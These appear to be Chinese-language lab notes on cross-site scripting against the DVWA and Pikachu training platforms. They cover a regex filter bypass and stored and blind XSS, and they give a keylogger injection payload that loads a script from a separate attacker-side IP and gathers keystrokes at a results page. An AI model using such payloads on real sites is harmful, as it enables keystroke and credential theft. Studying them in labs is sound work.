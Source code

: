
## 高级利用

DVWA high

```
XSS (Reflected) Source
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?>
```

正则匹配，双写失效，大小写失效

只能使用其他标签

## 存储型

页面示例：

Name:
<input placeholder=""/>
Message:
<textarea placeholder=""></textarea>
<input type="submit" value="Save"/>
<br>

输入的信息被保存在服务器，用户访问响应的页面就会收到攻击


利用代码一样

## XSS 盲打

提交内容后，不在当前页面显示，谁查看谁中招

平台 Pikachu

输入恶意代码后，在后台登陆（admin/123456），代码被执行

## XSS 键盘记录

Pikachu 自带键盘记录代码 /var/www/html/pkxss/rkeypress/rk.js，需要修改目标服务器 IP


1. 恶意脚本：http://192.168.119.129:8081/pkcss/rkeypress/rk.js
2. 监听脚本传过来的信息：http://192.168.119.129:8081/pkxss/rkeypress/pkxss_keypress_result.php
3. 输入恶意代码
```
<script src="http://192.168.119.129:8081/pkcss/rkeypress/rk.js"></script>
```
4. 查看收集的信息：http://192.168.119.129:8081/pkxss/rkeypress/pkxss_keypress_result.php
